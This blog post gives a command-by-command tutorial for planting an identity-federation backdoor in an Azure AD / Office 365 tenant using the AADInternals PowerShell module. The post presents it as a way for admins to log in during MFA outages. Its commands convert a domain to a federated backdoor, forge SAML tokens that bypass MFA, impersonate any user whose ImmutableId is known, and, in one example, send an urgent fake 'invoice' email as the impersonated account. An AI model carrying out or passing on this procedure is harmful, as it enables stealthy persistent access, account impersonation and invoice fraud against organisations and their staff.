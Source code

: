 +++
title = "How to create a backdoor to Azure AD - part 1: Identity federation"
date = "2018-11-21"
lastmod = "2020-08-05"
categories =["blog"]
tags = ["Azure Active Directory","PowerShell","AADInternals","Security"]
thumbnail = "/images/posts/backdoor_i.png"
+++

On November 2018 Azure AD MFA was down over 12 hours preventing users from logging in to Office 365. Same happened in October 2019 in US data centers.
As MFA is usually mandatory for administrators by company policy, they couldn’t log in either. 
In this blog, I’ll show how to create a backdoor to Azure AD so you can log in and bypass MFA. 

<!--more-->
Microsoft has pushed organisations to use Azure AD Multi-Factor Authentication (MFA) to increase the security of their cloud offering. 
On November 2018 the <a href="/images/posts/mfa_down.png" target="_blank">MFA service was down</a> worldwide for over 12 hours, and <a href="/images/posts/mfa_down2.png" target="_blank">two hours</a> on 2019 in the US.

How can admins log in if something similar happens? The answer is: using a backdoor. Here is how to create one - see my <a href="/post/aad-deepdive/" target="_blank">blog</a> for technical details.

**Note!** In this blog, I'm using the **<a href="/aadinternals" target="_new">AADInternals</a>** PowerShell module. 

# Prerequisities
The backdoor utilises a known <a href="/post/federation-vulnerability/" target="_post">identity federation ~~vulnerability~~ feature</a> I blogged on 2017. 
To create a backdoor, all you need is a user with Global Admin access to Azure AD / Office 365 tenant and <a href="/aadinternals" target="_blank">AADInternals</a> PowerShell module.

## Preparing the users
The backdoor requires that the account to be impersonated has an **ImmutableID** attribute set. 
If the account is synced from on-premises, the attribute contains a base64 encoded GUID of user's on-prem AD object. 
If the account is not synced, you need to set it manually. The value can be basically any string, as long as it is unique within the tenant.

To set the ImmutableId, use the following commands
{{< highlight powershell >}}
# Get AccessToken
$at=Get-AADIntAccessTokenForAADGraph

# Set the ImmutableId
Set-AADIntUser -UserPrincipalName "admin@company.onmicrosoft.com" -ImmutableId "AADBackdoor" -AccessToken $at
{{< /highlight>}}

## Creating a backdoor
To create a backdoor, you need a registered domain which will be converted to a backdoor. You can get one domain free from <a href="www.myo365.site" target="_blank">www.myo365.site</a>.

After registering a domain, for example **company.myo365.site**, you can create a backdoor:

{{< highlight powershell >}}
# Convert an existing domain to a backdoor
ConvertTo-AADIntBackdoor -AccessToken $at -DomainName "company.myo365.site"
{{< /highlight>}}

**Output:**
```
Are you sure to create backdoor with microsoft.com? Type YES to continue or CTRL+C to abort: YES

IssuerUri               Domain              
---------               ------              
http://any.sts/23748688 company.myo365.site
```
# Use the backdoor

There are two ways to use the created backdoor. You can either open the Office 365 portal, or create a SAML tokens and use it with other AADInternals functions.

## Open the Office 365 portal
{{< highlight powershell >}}
# Open the Office 365 portal in an Internet Explorer InPrivate -session
Open-AADIntOffice365Portal -ImmutableId "AADBackdoor" -Issuer "http://any.sts/AE7A094C" -ByPassMFA $true -UseBuiltInCertificate
{{< /highlight>}}

You should now see the html page as below. Click the **Login to Office 365** button to log in! 
You can also view the source code of the page to see what the SAML token contains.

![screenshot](/images/posts/backdoor.png)


## Create a SAML token and send email using Outlook API
{{< highlight powershell >}}
# Create a SAML token
$token=New-AADIntSAMLToken -ImmutableId "AADBackdoor" -Issuer "http://any.sts/AE7A094C" -ByPassMFA $true -UseBuiltInCertificate

# Get an access token for Exchange Online
$et=Get-AADIntAccessTokenForEXO -SAMLToken $token

# Send an email using Outlook API
Send-AADIntOutlookMessage -AccessToken $et -Recipient "accounting@company.com" -Subject "Invoice" -Message "Pay the attached invoice <b>ASAP!</b>"
{{< /highlight>}}

# Afterword
 
Now you have a backdoor which you can use to access Office 365 - even if the MFA service is down. Conditional access may still block the access for other reasons. 

**Note!** The backdoor allows you to log in as ANY USER of the tenant, as long as the user's **ImmutableId** is known.
